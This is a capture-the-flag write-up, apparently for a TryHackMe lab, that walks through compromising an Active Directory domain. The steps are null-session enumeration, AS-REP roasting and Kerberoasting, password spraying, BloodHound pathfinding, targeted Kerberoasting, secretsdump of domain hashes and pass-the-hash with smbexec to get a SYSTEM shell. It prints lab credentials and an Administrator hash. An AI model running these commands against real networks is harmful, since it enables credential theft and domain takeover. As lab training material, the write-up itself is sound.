

# Operation Endgame

<figure><figcaption></figcaption></figure>



***

An initial scan using `RustScan` and `Nmap` identified multiple services associated with Active Directory infrastructure.


```
sudo nmap -sV -sC -Pn 10.48.188.197 -T4 -A
```


<figure><figcaption></figcaption></figure>

Add The Domain and DNS name in the `hosts` file !

<figure><figcaption></figcaption></figure>

I got the default Shares !


```
smbclient -L \\10.48.188.197\ -N
```


<figure><figcaption></figcaption></figure>

Null `rpc` services for enumeration the users !


```
rpcclient -U "" -N 10.48.188.197
```


<figure><figcaption></figcaption></figure>

Check for the all rid values and also paste these username inside the `users.txt` file !


```
nxc smb 10.48.188.197 -u 'guest' -p '' --rid-brute
```


<figure><figcaption></figcaption></figure>

Check The Users Using `LDAP` !


```
nxc ldap 10.48.188.197 -u 'guest' -p '' --users
```


<figure><figcaption></figcaption></figure>

Make The List Using `LDAP` Services !


```
nxc ldap 10.48.188.197 -u 'guest' -p '' --users > users.txt
cat users.txt | awk '{print $5}' > names.txt
```


<figure><figcaption></figcaption></figure>

Then i did the AS-REP Roasting but hashes is not `crackable` !


```
impacket-GetNPUsers thm.local/ -no-pass -usersfile names.txt -dc-ip 10.48.188.197
```


<figure><figcaption></figcaption></figure>

Try `Kerberoasting` using The Guest Account and It's work !


```
impacket-GetUserSPNs -dc-ip 10.48.188.197 thm.local/guest -request
```


<figure><figcaption></figcaption></figure>

Crack The Hash Using John !

<figure><figcaption></figcaption></figure>

Check The Valid Credentials !


```
nxc smb 10.48.188.197 -u CODY_ROY -p 'MKO)mko0'
nxc  rdp  10.48.188.197 -u CODY_ROY -p 'MKO)mko0'
```


<figure><figcaption></figcaption></figure>

Then again make the users lists using with valid credentials !


```
nxc ldap  10.48.188.197 -u CODY_ROY -p 'MKO)mko0' --users > users.txt
cat users.txt | awk '{print $5}' > names.txt
```


Password spraying work !


```
kerbrute passwordspray --dc 10.48.188.197 -d thm.local names.txt "MKO)mko0"
```


<figure><figcaption></figcaption></figure>

Bloodhound for the best enumeration and find the attack path !


```
sudo bloodhound-python -d thm.local -u ZACHARY_HUNT -p 'MKO)mko0' -ns 10.48.188.197 -c all --zip
```


<figure><figcaption></figcaption></figure>

BloodHound analysis of ZACHARY\_HUNT revealed: `GenericWrite`

<figure><figcaption></figcaption></figure>

Trying Kerberoasting Attack !




```
python targetedKerberoast.py -d thm.local -u ZACHARY_HUNT -p 'MKO)mko0' --dc-ip 10.48.163.237 --request-user JERRI_LANCASTER
```


<figure><figcaption></figcaption></figure>

Crack The Hash Using John !

<figure><figcaption></figcaption></figure>

Check The Credential it's valid or not !


```
nxc smb 10.48.163.237 -u JERRI_LANCASTER -p 'lovinlife!'
nxc rdp  10.48.163.237 -u JERRI_LANCASTER -p 'lovinlife!'
```


<figure><figcaption></figcaption></figure>

Interact With The `rdp` !


```
xfreerdp3 /u:JERRI_LANCASTER /p:'lovinlife!' /v:10.48.163.237 /dynamic-resolution +clipboard /cert:ignore /drive:shared,/home/kali/ctf
```


<figure><figcaption></figcaption></figure>

Check The Credential it's valid or not and luckily we are a local domain admin !


```
nxc smb 10.48.163.237 -u 'SANFORD_DAUGHERTY' -p "RESET_ASAP123"
```


<figure><figcaption></figcaption></figure>

Dump The hashes using `impacket-secretsdump`&#x20;


```
impacket-secretsdump thm.local/SANFORD_DAUGHERTY:'RESET_ASAP123'@10.48.163.237 -just-dc
```


<figure><figcaption></figcaption></figure>

Use The `impacket-smbexec` for the SYSTEM Level Shell !&#x20;


```
impacket-smbexec-k -hashes :e599bf2fe56d6a21b3a5487bb4761d1b thm.local/Administrator@ad.thm.local
```


<figure><figcaption></figcaption></figure>
